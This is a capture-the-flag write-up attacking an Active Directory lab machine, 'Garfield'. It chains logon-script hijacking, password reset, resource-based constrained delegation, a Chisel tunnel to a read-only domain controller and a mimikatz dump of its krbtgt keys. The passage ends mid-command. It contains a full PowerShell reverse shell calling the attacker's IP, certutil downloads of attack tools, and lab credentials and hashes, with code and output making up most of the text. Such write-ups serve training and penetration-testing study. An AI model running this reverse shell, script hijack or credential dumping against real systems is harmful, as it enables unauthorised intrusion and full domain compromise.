# Garfield Writeup

---

## Machine Information

| Field | Details |
|---|---|
| **Name** | Garfield |
| **OS** | Windows Server 2019 |
| **Difficulty** | Hard |
| **Domain** | garfield.htb |
| **Domain Controller** | DC01.garfield.htb |
| **Read Only Domain Controller** | RODC01.garfield.htb |
| **Author** | ruycr4ft |


> [!Note]
> This writeup is a complete walkthrough detailing every trial, error, and rabbit hole i encountered. hope yall enjoy reading it
---

## Enumeration

### Nmap

We're handed starting credentials right out of the box `j.arbuckle / Th1sD4mnC4t!@1978` so this is a credentialed assessment from the jump.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-28 15:28:51Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: garfield.htb)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0
9389/tcp  open  mc-nmf        .NET Message Framing
Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 7h58m46s, deviation: 0s, median: 7h58m46s
```

Standard DC port layout. A few things worth noting is **RDP is open on 3389**. The SSL cert on 3389 confirms the hostname `DC01.garfield.htb`. SMB signing is required. And there's a **7h58m clock skew** already flagged by nmap something that'll come back to bite us later with Kerberos.

Also interesting **port 2179 (vmrdp)** this is the Hyper-V Virtual Machine Remote Desktop port. That's a hint that there's a VM running inside this DC.


### SMB Enumeration spider_plus

With valid creds, I ran nxc's `spider_plus` module to vacuum up everything readable on SMB shares.

```bash
nxc smb "$target" -u "$user1" -p "$pass1" -M spider_plus -o DOWNLOAD_FLAG=True
```

```
SMB    10.129.68.73  445  DC01  [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978
SMB    10.129.68.73  445  DC01  Share       Permissions   Remark
SMB    10.129.68.73  445  DC01  -----       -----------   ------
SMB    10.129.68.73  445  DC01  ADMIN$                    Remote Admin
SMB    10.129.68.73  445  DC01  C$                        Default share
SMB    10.129.68.73  445  DC01  IPC$        READ          Remote IPC
SMB    10.129.68.73  445  DC01  NETLOGON    READ          Logon server share
SMB    10.129.68.73  445  DC01  SYSVOL      READ          Logon server share
SPIDER_PLUS  10.129.68.73  445  DC01  [*] Total files found: 8
SPIDER_PLUS  10.129.68.73  445  DC01  [*] File unique exts: 5 (csv, pol, ini, bat, inf)
SPIDER_PLUS  10.129.68.73  445  DC01  [+] All files processed successfully.
```

`NETLOGON` and `SYSVOL` are readable, which is normal for domain users. But let's see what's actually inside. Eight files got downloaded automatically. The most interesting ones.

**`NETLOGON/printerDetect.bat`** a printer detection script sitting in the scripts folder. This means it's likely set as a logon script for some user. The file just runs `wmic printer get` and exits totally benign on its own, but the fact that it exists means someone has a `scriptPath` attribute pointing here.

**`SYSVOL/.../GptTmpl.inf`** the Group Policy security template. The `[Privilege Rights]` section had a very useful line:

```
SeBatchLogonRight = *S-1-5-32-559,l.wilson,*S-1-5-32-551,*S-1-5-32-544
```

`l.wilson` is explicitly listed with batch logon rights. That's a username, and it's been configured manually in the GPO. Combined with the logon script sitting in NETLOGON there's a clear link here, `l.wilson` probably has `.bat` (or similar) set as their logon script. If we can write to that script, we get code execution when `l.wilson` authenticates.



### BloodHound Analysis

I ran BloodHound collection using `bloodyad`:

```bash
bloodyad -d garfield.htb -u "$user1" -p "$pass1" --host "$target" get bloodhound
```

The full chain is

```
j.arbuckle > scriptPath WRITE > l.wilson
l.wilson > ForceChangePassword > l.wilson_adm
l.wilson_adm (Tier 1) > AddSelf > RODC Administrators
l.wilson_adm > WriteAccountRestrictions > RODC01
```

That's four hops from our starting user to the RODC machine object. Let's break down what each edge means and how we exploit it.

To confirm what `j.arbuckle` can actually write to, I ran:

```bash
bloodyad -d garfield.htb -u "$user1" -p "$pass1" --host "$target" get writable --detail
```

The output was long, but the key entries:

```
distinguishedName: CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE

distinguishedName: CN=Liz Wilson ADM,CN=Users,DC=garfield,DC=htb
scriptPath: WRITE
```

`j.arbuckle` has `scriptPath` WRITE on both `l.wilson` **and** `l.wilson_adm`. Interesting we actually have a direct path to the admin account too, but the ForceChangePassword route through `l.wilson` is cleaner and more reliable since that account is the one running the logon script.

---

## Initial Foothold

### scriptPath Abuse > Reverse Shell as l.wilson

my plan is to replace `printerDetect.bat` in NETLOGON with a malicious version containing a PowerShell reverse shell, then point `l.wilson`'s `scriptPath` attribute to it. When `l.wilson` authenticates (which happens automatically at regular intervals since this is a lab box), the script runs and we get a shell.

First, build the payload. I encoded a standard PowerShell TCP reverse shell as base64 (UTF-16LE encoding, as required by `powershell -enc`):

```bash
exploit='$client = New-Object System.Net.Sockets.TCPClient("10.10.14.160",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
enc=$(echo -n "$exploit" | iconv -t UTF-16LE | base64 -w 0)
cat > printerDetect.bat << EOF
@echo off
powershell -enc $enc
EOF
```

The resulting bat file starts with `@echo off` and drops into a single `powershell -enc <base64>` line. Upload it to SYSVOL over SMB.

```bash
smbclient //$target/SYSVOL -U $user1%$pass1 -c "cd garfield.htb; cd scripts; put printerDetect.bat"
```

```
putting file printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (23.4 kB/s)
```

Now set `l.wilson`'s `scriptPath` to point at our malicious bat.

```bash
bloodyad -u j.arbuckle -p 'Th1sD4mnC4t!@1978' -d garfield.htb --host $target \
  set object "CN=LIZ WILSON,CN=USERS,DC=GARFIELD,DC=HTB" scriptPath \
  -v 'garfield.htb\scripts\printerDetect.bat'
```

```
[+] CN=LIZ WILSON,CN=USERS,DC=GARFIELD,DC=HTB's scriptPath has been updated
```

Start the listener:

```bash
nc -lvnp 4444
```

And wait. After a short while:

```
connect to [10.10.14.160] from (UNKNOWN) [10.129.244.207] 54344
whoami
garfield\l.wilson
```

We have a shell as `l.wilson`.


### ForceChangePassword > l.wilson_adm

From BloodHound we know `l.wilson` has `ForceChangePassword` over `l.wilson_adm`. From this shell, we can reset `l.wilson_adm`'s password directly using PowerShell AD cmdlets:



```powershell
$newpwd = ConvertTo-SecureString "P@ssw0rdWakamiyaHTB2026!!" -AsPlainText -Force
Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $newpwd -Reset
```

No output means it worked silently but sometimes error too, u need to verify it manually.

```bash
nxc winrm $target -u 'l.wilson_adm' -p 'P@ssw0rdWakamiyaHTB2026!!'
```

```
WINRM  10.129.244.207  5985  DC01  [+] garfield.htb\l.wilson_adm:P@ssw0rdWakamiyaHTB2026!! (Pwn3d!)
```

`Pwn3d!` `l.wilson_adm` has WinRM access.



### Getting into l.wilson_adm & User Flag

```bash
evil-winrm -i $target -u l.wilson_adm -p 'P@ssw0rdWakamiyaHTB2026!!'
```

```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> whoami
garfield\l.wilson_adm

*Evil-WinRM* PS C:\Users\l.wilson_adm\Documents> cd ../Desktop

*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> type user.txt
5b973cf5c7607cREDACTEDc0fa35902
```

User flag captured. Now let's look at our privileges:

```
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

`SeMachineAccountPrivilege` we can add computer accounts to the domain. That's going to be crucial for the RBCD attack coming up.

---

## Privilege Escalation

### Setting Up RBCD on RODC01



Before doing anything else, I added `l.wilson_adm` to the RODC Administrators group, BloodHound showed i have `AddSelf` rights by being a member of Tier 1 Group.

```bash
bloodyad -u l.wilson_adm -p 'P@ssw0rdWakamiyaHTB2026!!' \
  -d garfield.htb --host $target \
  add groupMember "RODC Administrators" l.wilson_adm
```

```
[+] l.wilson_adm added to CN=RODC Administrators,...
```

Now, from BloodHound, `l.wilson_adm` has `WriteAccountRestrictions` on `RODC01$`. That's the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute exactly what we need to configure Resource-Based Constrained Delegation (RBCD). create a fake computer account we control, grant it delegation rights to `RODC01$`, then use S4U2Proxy to get a service ticket impersonating Administrator against RODC01.

First, create the fake computer account using our `SeMachineAccountPrivilege`

```bash
impacket-addcomputer garfield.htb/l.wilson_adm:'P@ssw0rdWakamiyaHTB2026!!' \
  -computer-name redteam \
  -computer-pass 'RedT3amers123!' \
  -dc-ip 10.129.244.207

[*] Successfully added machine account redteam$ with password RedT3amers123!.
```

Then configure RBCD set `redteam$` as allowed to delegate to `RODC01$`:

```bash
impacket-rbcd garfield.htb/l.wilson_adm:'P@ssw0rdWakamiyaHTB2026!!' \
  -action write \
  -delegate-to 'RODC01$' \
  -delegate-from 'redteam$' \
  -dc-ip 10.129.244.207

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] redteam$ can now impersonate users on RODC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     redteam$     (S-1-5-21-2502726253-3859040611-225969357-11101)
```

### First S4U2Proxy Attempt Clock Skew

```bash
impacket-getST -spn cifs/RODC01.garfield.htb \
  -impersonate Administrator \
  -dc-ip 10.129.244.207 \
  'garfield.htb/redteam$:RedT3amers123!'
```

```
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Right the clock skew nmap warned us about. Kerberos requires clocks to be within 5 minutes of the KDC. Fix it:

```bash
sudo ntpdate -u 10.129.244.207
```

```
2026-10-29 09:24:27.519083 (+0700) +28725.181110 +/- 0.009091 10.129.244.207 s1 no-leap
CLOCK: time stepped by 28725.181110
```

That's a ~8 hour skew. Try getST again:

```bash
impacket-getST -spn cifs/RODC01.garfield.htb \
  -impersonate Administrator \
  -dc-ip 10.129.244.207 \
  'garfield.htb/redteam$:RedT3amers123!'
```

```
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

Ticket saved. Set it as our credential cache:

```bash
export KRB5CCNAME=/home/wakamiya/VirtualLab/HTB/Garfield/Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

### Dead End: Secretsdump to RODC

Here's where I burned some time. With an Administrator service ticket for RODC01, my first instinct was to try `secretsdump` and just DCSync everything. Multiple attempts, multiple failures

**Attempt 1 VSS mode (doesn't support -just-dc-user):**
```bash
impacket-secretsdump -k -no-pass -target-ip 10.129.244.207 \
  RODC01.garfield.htb -just-dc-user Administrator -use-vss

[-] -just-dc-user switch is not supported in VSS mode nor WMI VSS mode
```

**Attempt 2 DRSUAPI (DCSync) method:**
```bash
impacket-secretsdump -k -no-pass -target-ip 10.129.244.207 \
  RODC01.garfield.htb -just-dc-user Administrator

[*] Using the DRSUAPI method to get NTDS.DIT secrets
[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
```

**Attempt 3 wmiexec:**
```bash
impacket-wmiexec -k -no-pass RODC01.garfield.htb

[-] SMB SessionError: code: 0xc0000016 - STATUS_MORE_PROCESSING_REQUIRED
```

**Attempts 4 & 5 Direct secretsdump with password auth to RODC:**
```bash
impacket-secretsdump -target-ip 10.129.244.207 \
  -just-dc-user "CN=Administrator,CN=Users,DC=garfield,DC=htb" \
  'garfield.htb/redteam$:RedT3amers123!'@RODC01.garfield.htb

[-] ERROR_DS_NAME_ERROR_NOT_FOUND
```

```bash
impacket-secretsdump -target-ip 10.129.244.207 \
  -just-dc-user "Administrator@garfield.htb" \
  'garfield.htb/redteam$:RedT3amers123!'@RODC01.garfield.htb

[-] ERROR_DS_NAME_ERROR_NOT_FOUND
```

All of these fail for the same fundamental reason, **an RODC cannot perform DCSync**. RODCs only have read-only replicas of a subset of password hashes (those explicitly allowed to replicate). They cannot initiate replication of the full NTDS.DIT. Trying secretsdump to DC01 also fails because `l.wilson_adm` doesn't have DCSync rights there either.

After some research (specifically [adsecurity.org](https://adsecurity.org/?p=3592) and [thehacker.recipes](https://www.thehacker.recipes/ad/movement/dacl/rights-on-rodc-object)), the attack isn't secretsdump at all. It's **RODC Golden Ticket + Kerberos KeyList attack**.

### Locating RODC01

Before going further, I needed to confirm where RODC01 actually lives. From the nmap output, port 2179 (vmrdp) hinted at a hosted VM. Running ipconfig from inside our evil-winrm shell confirmed it.

```
*Evil-WinRM* PS C:\Users\l.wilson_adm\Desktop> ipconfig /all

Ethernet adapter vEthernet (Switch01):
   Description: Hyper-V Virtual Ethernet Adapter
   IPv4 Address: 192.168.100.1

Ethernet adapter Ethernet0 3:
   IPv4 Address: 10.129.244.207
```

DC01 has a Hyper-V internal network at `192.168.100.0/24`. RODC01 is the VM behind it:

```powershell
Resolve-DnsName -Name RODC01.garfield.htb

RODC01.garfield.htb    A    1200    Answer    192.168.100.2
```

```powershell
Get-ADComputer -Identity "RODC01" -Properties * | Select-Object Name, dNSHostName, IPv4Address

Name   dNSHostName         IPv4Address
RODC01 RODC01.garfield.htb 192.168.100.2
```

The full `Get-ADComputer` output also revealed two very important attributes.
- `msDS-KrbTgtLink: CN=krbtgt_8245,CN=Users,DC=garfield,DC=htb` RODC01 uses its own dedicated krbtgt account (`krbtgt_8245`, RID 8245) to sign Kerberos tickets
- `TrustedToAuthForDelegation: True` constrained delegation is enabled
- `msDS-RevealedUsers` already includes `CN=Administrator` the DC has been authenticating against RODC01

Also from `netstat`, RODC01 (`192.168.100.2`) already has active connections to DC01 on ports 389 (LDAP) and 49667 they're actively talking.





### Setting Up the Chisel Tunnel

RODC01 at `192.168.100.2` is not directly reachable from our attacker machine it's on an internal Hyper-V network. We need to tunnel through DC01 to reach it. Chisel is the right tool for this.

Transfer chisel to DC01 using certutil (HTTP server running on our attacker at port 8000)

```powershell
*Evil-WinRM* PS C:\Users\l.wilson_adm\Downloads> certutil -urlcache -f http://10.10.14.160:8000/chisel.exe C:\Users\l.wilson_adm\Downloads\chisel.exe
CertUtil: -URLCache command completed successfully.
```

Start the chisel server on our attacker machine

```bash
chisel server -p 9999 --reverse
```

Connect from DC01

```powershell
*Evil-WinRM* PS C:\Users\l.wilson_adm\Downloads> .\chisel.exe client 10.10.14.160:9999 R:socks
```

```
2026/10/28 20:39:31 client: Connecting to ws://10.10.14.160:9999
2026/10/28 20:39:31 client: Connected (Latency...)
```

Server output confirms the tunnel is up

```
2026/10/29 02:40:44 server: session#1: Open (user=- addr=10.129.244.207:50517 remotes=R:127.0.0.1:1080:socks)
2026/10/29 02:40:44 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

SOCKS5 proxy now running on `127.0.0.1:1080`. All `proxychains4` traffic will route through DC01 and into the `192.168.100.0/24` network.

Note: there's a minor version mismatch between the client and server (`1.12.0-rc3` vs `1.12.0~rc2`) but it doesn't affect functionality. The session dropped once during the engagement and had to be reconnected (session#2).

### The RC4 Problem Generating an AES Key

Back to our getST. The first ticket worked syntactically but failed against RODC01 because RODC01 **rejects RC4-encrypted Kerberos tickets**. When impacket's getST uses a plaintext password, it generates an RC4 ticket by default. RODC01 responds with `STATUS_MORE_PROCESSING_REQUIRED` its way of saying "nope, bring me AES."

derive the AES256 key for `redteam$` manually and pass it with `-aesKey`

```python
from impacket.krb5.crypto import string_to_key, Enctype
salt = 'GARFIELD.HTBhostredteam.garfield.htb'
key = string_to_key(Enctype.AES256, 'RedT3amers123!', salt)
print(key.contents.hex())
```

```
5b9bea884fe7bd9cf8454617ae6c845325f5d6725a10ae6bc49c634c8151104f
```

The Kerberos salt for a computer account is `DOMAIN.TLDhost<accountname>.<domain>` all lowercase except the domain prefix.

Unset the old ccache and get a fresh ticket with AES

```bash
unset KRB5CCNAME

impacket-getST -spn cifs/RODC01.garfield.htb \
  -impersonate Administrator \
  -dc-ip 10.129.244.207 \
  'garfield.htb/redteam$' \
  -aesKey 5b9bea884fe7bd9cf8454617ae6c845325f5d6725a10ae6bc49c634c8151104f

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

```bash
export KRB5CCNAME=Administrator@cifs_RODC01.garfield.htb@GARFIELD.HTB.ccache
```

Add RODC01 to `/etc/hosts` so tools can resolve it

```
192.168.100.2    RODC01.garfield.htb RODC01
```

### SYSTEM on RODC01 via psexec

Sync the clock again (it drifts), then psexec through the proxychains tunnel:

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u 10.129.244.207

proxychains4 impacket-psexec -k -no-pass Administrator@RODC01.garfield.htb
```

```
[proxychains] Strict chain ... 127.0.0.1:1080 ... 192.168.100.2:445 ... OK
[*] Requesting shares on RODC01.garfield.htb.....
[*] Found writable share ADMIN$
[*] Uploading file nElOXGzb.exe
[*] Opening SVCManager on RODC01.garfield.htb.....
[*] Creating service zJTb on RODC01.garfield.htb.....
[*] Starting service zJTb.....

Microsoft Windows [Version 10.0.17763.8511]

C:\Windows\system32> whoami
nt authority\system
```

We have SYSTEM on RODC01. But the root flag isn't here RODC01 is a supporting cast member, not the end goal. We need to use this access to compromise DC01.

### Dumping krbtgt_8245 from RODC01

The RODC has its own Kerberos ticket-granting ticket account `krbtgt_8245`. If we get its signing keys, we can forge RODC Golden Tickets (TGTs that are signed with the RODC's krbtgt key rather than the main domain's krbtgt). These forged tickets can then be fed to a technique called **Kerberos KeyList** to extract the actual domain Administrator password hash from DC01.

From the RODC01 SYSTEM shell, upload and run mimikatz

```
certutil -urlcache -f http://10.10.14.160:8000/mimikatz.exe C:\Users\l.wilson_adm\Documents\mimikatz.exe

.\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_8245" "exit"
```

```
mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::lsa /inject /name:krbtgt_8245
Domain : GARFIELD / S-1-5-21-2502726253-3859040611-225969357

RID  : 00000643 (1603)
User : krbtgt_8245

 * Primary
    NTLM : 445aa4221e751da37a10241d962780e2

 * Kerberos-Newer-Keys
    Default Salt : GARFIELD.HTBkrbtgt_8245
    Credentials
      aes256_hmac (4096) : d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240
      aes128_hmac (4096) : 124c0fd09f5fa4efca8d9f1da91369e5
```

We have the `krbtgt_8245` AES256 key: `d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240`.



### Manipulating RODC Password Replication Policy

now about RODC Golden Tickets, even if you forge a perfect TGT signed with `krbtgt_8245`, DC01 will only hand back the real credentials if the target account's password hash is **allowed to replicate to RODC01**. This is controlled by two LDAP attributes on the RODC computer object:

- `msDS-RevealOnDemandGroup` accounts whose passwords *can* replicate to this RODC
- `msDS-NeverRevealGroup` accounts whose passwords *never* replicate

First, check the current state with ldapsearch

```bash
ldapsearch -x -H ldap://$target \
  -D "j.arbuckle@garfield.htb" -w 'Th1sD4mnC4t!@1978' \
  -b "DC=garfield,DC=htb" "(objectClass=computer)" \
